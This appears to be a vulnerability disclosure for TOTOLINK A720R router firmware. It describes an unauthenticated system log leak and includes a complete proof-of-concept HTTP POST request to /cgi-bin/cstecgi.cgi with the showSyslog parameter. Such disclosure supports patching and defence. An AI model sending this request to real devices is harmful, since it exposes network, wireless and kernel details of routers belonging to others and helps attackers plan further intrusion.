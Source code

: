 # Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an unauthenticated system log disclosure vulnerability. An attacker can exploit this flaw by sending a crafted POST request with the parameter `{"topicurl":"showSyslog"}` to `/cgi-bin/cstecgi.cgi`, exposing detailed system logs containing kernel-level debug information, network interface status changes, wireless configuration details, and low-level hardware operations.

# Poc

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 25
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"showSyslog"}
```

![图 0](img/c11b753ec4616353641574461f1b3927b349aab9b1df8e9e700b38721a5ad116.png)  

